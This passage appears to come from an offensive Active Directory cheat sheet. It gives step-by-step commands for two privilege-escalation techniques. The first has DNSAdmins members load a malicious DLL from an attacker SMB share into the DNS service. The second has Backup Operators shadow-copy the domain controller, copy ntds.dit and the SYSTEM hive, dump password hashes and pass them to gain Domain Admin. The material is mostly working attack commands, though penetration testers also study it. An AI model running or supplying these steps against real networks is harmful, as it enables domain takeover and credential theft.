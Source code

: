 ```
# Get members of the DNSAdmins group
net localgroup "DNSAdmins" /domain
# Load a malicious dll from a member of DNSAdmins context
# Stop service
sc.exe \\<DNS_SERVER> stop dns
# Replace the dll
dnscmd.exe /config /serverlevelplugindll \\10.10.10.150\share\evil.dll
# Restart the service
sc.exe \\<DNS_SERVER> start dns
```

#### Backup Operator Abuse
If we manage to compromise a user account that is member of the Backup Operators group, we can then abuse it's `SeBackupPrivilege` to create a shadow copy of the current state of the DC, extract the ntds.dit database file, dump the hashes and escalate our privileges to DA.

1) Once we have access on an account that has the SeBackupPrivilege we can access the DC and create a shadow copy using the signed binary diskshadow:
```
# Create a .txt file that will contain the shadow copy process script
Script ->{
set metadata c:\<PathToSave>metadata.cab
set context clientaccessible
set context persistent
begin backup
add volume c: alias mydrive
create
expose %mydrive% w:
}
```
2) Next we need to access the shadow copy, we may have the `SeBackupPrivilege` but we cant just 
simply copy-paste ntds.dit, we need to mimic a backup software and use Win32 API calls to copy it on an accessible folder. For this we can use [this](https://github.com/giuliano108/SeBackupPrivilege) repo:
```
# Importing both dlls from the repo using powershell
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll
  
# Checking if the SeBackupPrivilege is enabled
Get-SeBackupPrivilege
  
# If it isn't we enable it
Set-SeBackupPrivilege
  
# Use the functionality of the dlls to copy the ntds.dit database file from the shadow copy to a location of our choice
Copy-FileSeBackupPrivilege w:\windows\NTDS\ntds.dit c:\<PathToSave>\ntds.dit -Overwrite
  
# Dump the SYSTEM hive
reg save HKLM\SYSTEM c:\temp\system.hive 
```
3) Using smbclient.py from impacket or some other tool we copy ntds.dit and the SYSTEM hive on our local machine.
4) Use secretsdump.py from impacket and dump the hashes.
5) Use psexec or another tool of your choice to PTH and get Domain Admin access.
